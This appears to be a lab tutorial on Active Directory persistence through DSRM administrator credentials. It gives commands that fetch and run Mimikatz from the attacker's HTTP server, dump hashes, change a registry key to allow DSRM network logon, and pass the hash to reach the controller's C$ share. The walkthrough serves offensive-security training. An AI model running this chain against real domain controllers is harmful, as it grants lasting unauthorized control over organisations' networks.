





Introduction
In this article, we will cover the second persistence technique for maintaining access to a Domain Controller: abusing the DSRM (Directory Services Restore Mode) credentials.
What is the DSRM Credential Technique?
Every Domain Controller contains a Local Administrator account. The password for this account is set at the time the Active Directory environment is initially created. This account is rarely ever used, and its password is almost never changed. It is only used in disaster recovery scenarios -- for example, when something catastrophic happens to the Active Directory environment and an administrator needs to perform a reset.
In this technique, we will attempt to extract the password hash of the Local Administrator account on the Domain Controller. Once we have this hash, we can use it to perform a Pass The Hash attack at any time in the future to browse the shared files on the Domain Controller, giving us persistent access.
Walkthrough
Prerequisites
To execute this technique, you must have a PowerShell session running as a user who is a member of the Domain Admins group.

Step 1: Enter a Remote Session on the Domain Controller
First, we connect to the Domain Controller by opening a remote PowerShell session:
Enter-PSSession -ComputerName dcorp-dc
Step 2: Load Mimikatz into Memory
Next, we load the Mimikatz PowerShell script into memory by downloading it from our HTTP server:
iex (iwr http://172.16.100.7/Invoke-Mimikatz.ps1 -UseBasicParsing)

Step 3: Dump Local Passwords from the Domain Controller
After loading Mimikatz, we execute it to extract the local passwords stored on the Domain Controller. This will give us the NTLM hash of the Local Administrator account.

Step 4: Modify the Registry to Enable DSRM Logon
Before we can perform the Pass The Hash attack using the DSRM account, we need to add a registry entry that controls logon behavior. Specifically, we need to create the DsrmAdminLogonBehavior key and set its value to 2. This allows us to use the NTLM hash of the DSRM Local Administrator for network authentication.
Run the following command:
New-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2 -PropertyType DWORD
Setting this value to 2 enables the DSRM administrator account to be used for network logon when the Directory Services are running, which is exactly what we need.

Step 5: Execute Pass The Hash with Mimikatz
Now we perform the Pass The Hash attack using the NTLM hash we extracted earlier. We use the Mimikatz sekurlsa::pth command to spawn a new PowerShell session authenticated as the Local Administrator:
sekurlsa::pth /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /domain:dcorp-dc /run:powershell.exe
Important note: In the /domain: parameter, you must specify only the computer name of the Domain Controller (e.g., dcorp-dc), not the full domain name (e.g., not dcorp-dc.dollarcorp.moneycorp.local). This is because we are authenticating against the local SAM database, not the domain.
Step 6: Access the Domain Controller's Shared Files
With the authenticated PowerShell session now open, we can browse the shared files on the Domain Controller by running:
dir \\dcorp-dc\C$
This confirms that we now have persistent access to the Domain Controller's file system using the DSRM Local Administrator credentials. Since this password is rarely changed, this persistence mechanism can remain viable for a very long time.
